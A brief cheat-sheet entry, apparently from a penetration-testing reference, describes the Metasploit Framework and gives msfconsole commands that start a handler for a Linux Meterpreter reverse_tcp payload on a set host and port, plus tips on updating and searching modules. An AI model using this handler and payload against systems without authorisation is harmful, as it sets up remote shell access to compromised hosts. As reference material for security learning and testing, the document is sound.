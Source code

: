 # Metasploit Framework

**Description:**  
Metasploit is an exploitation framework for developing and executing exploit code against targets.

**Basic Syntax (msfconsole):**
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit
```

**Common Uses:**  
- Launch payload handlers, run exploit modules, post-exploitation with Meterpreter.

**Tips:**  
- Keep Metasploit updated (`msfupdate`). Use `search`, `info`, `show options` commands in msfconsole.